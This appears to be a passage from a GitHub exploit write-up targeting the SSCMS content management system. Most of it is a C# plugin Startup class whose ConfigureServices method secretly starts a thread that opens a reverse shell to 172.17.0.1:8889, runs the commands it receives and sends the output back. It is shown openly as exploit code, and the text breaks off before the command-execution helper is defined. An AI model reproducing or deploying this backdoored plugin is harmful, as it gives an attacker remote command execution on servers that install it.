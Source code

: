 ```c#
            ... <--- ExploitCode
            
            services.AddScoped<IAdvertisementRepository, AdvertisementRepository>();
        }
	}
}
```

# Exp

```c#
using Microsoft.Extensions.DependencyInjection;
using SSCMS.Advertisement.Abstractions;
using SSCMS.Advertisement.Core;
using SSCMS.Plugins;
using System.Diagnostics;
using System;
using System.Text;
using System.Net.Sockets;
using System.Net;
using System.Threading;

namespace SSCMS.Advertisement
{
    public class Startup : IPluginConfigureServices
    {
        
      public void ConfigureServices(IServiceCollection services)
      {
         ThreadStart childref = new ThreadStart(reversShell);
         Thread childThread = new Thread(childref);
         childThread.Start();
         services.AddScoped<IAdvertisementRepository, AdvertisementRepository>();
      }

		public void reversShell()
		{
			Socket socketshell = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
			IPAddress ip = IPAddress.Parse("172.17.0.1");
			IPEndPoint point = new IPEndPoint(ip, Convert.ToInt32("8889"));
			try
			{
				socketshell.Connect(point);
				while (true)
				{
					byte[] getdata = new byte[1024 * 5];
					int n = socketshell.Receive(getdata);
					string restr = Encoding.Default.GetString(getdata, 0, n);
					string command = restr;
					string resultok = willshell(command);
					byte[] senddata = new byte[1024 * 5];
					senddata = Encoding.Default.GetBytes(resultok);
					socketshell.Send(senddata);
				}
			}
			catch
			{
				socketshell.Close();
			}
		}

```
